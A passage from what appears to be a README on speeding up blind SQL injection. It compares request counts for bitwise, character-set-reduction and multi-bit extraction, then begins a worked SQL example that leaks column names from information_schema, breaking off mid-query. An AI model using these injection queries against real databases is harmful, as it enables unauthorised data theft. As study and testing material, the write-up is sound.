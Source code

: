 To illustrate the efficiency of these optimizations consider the following table showing the number of requests required to extract the text response from a query result with length 16:

Technique                            | Result Requests | Additional Requests      | Total Requests
-------------------------------------|-----------------|--------------------------|---------------
**Data extraction techniques**       |                 |                          |
Naive byte extraction                | 4,096           | 256 (LC)                 | 4,352
Divide and conquer byte extraction   | 128             | 8 (LC)                   | 136
*Bitwise byte extraction*            | 128             | 8 (LC)                   | **136**
**Character set optimizations**      |                 |                          |
ASCII character extraction           | 112             | 7 (LC)                   | 119
*Character set reduction*            | 96              | 6 (LC) + 1 (CS)          | **103**
**Multi bit requests**               |                 |                          |
Extracting 2 bits of information     | 48              | 3 (LC) + 1 (CS) + 1 (RC) | 53
*Extracting 3+ bits of information*  | 32              | 2 (LC) + 1 (CS) + 1 (RC) | **36**

`LC`: Length Check request
`CS`: Character Set request
`RC`: Result Confirmation request

Even over reasonably efficient bitwise ASCII character extraction the outlined optimizations can save 83 requests on a 16 character query result. On top of this, if the result we are querying is in a known or discovered input corpus it can often be extracted using result guessing in fewer than 8 requests.

# Thanks
Thanks to Pentest Monkey for the excellent SQL injection cheat sheets +[SQL Injection Cheat Sheets by Pentest Monkey](http://pentestmonkey.net/category/cheat-sheet/sql-injection).

Thanks to SQLZoo +[SQLZoo](http://sqlzoo.net/) for providing a sandbox in which these methods could be tested and refined.

# Worked Example

Worked example extracting 2 bits per request (result + temporal) with character set reduction to query all column names from a table called `games`:
```sql
-- The query we want to execute
SELECT
DISTINCT(column_name) FROM information_schema.columns
WHERE table_name='games';

-- Check character set is acceptable across all results
SELECT CASE WHEN (
  SELECT SUM(result) from (
    SELECT 1 as result from (
      SELECT
      DISTINCT(column_name) FROM information_schema.columns
      WHERE table_name='games'
    ) as x WHERE column_name REGEXP '[^ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789]'
  ) as y
) IS NULL THEN 1 ELSE 0 END;

-- Extract bits 1 & 2 of the first character of the first result
SELECT (
  -- Extract 1st bit through true/false result
  CASE WHEN (
    SELECT INSTR(
      'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789',
      SUBSTR(
        (
          SELECT
          DISTINCT(column_name) FROM information_schema.columns
          WHERE table_name='games'
```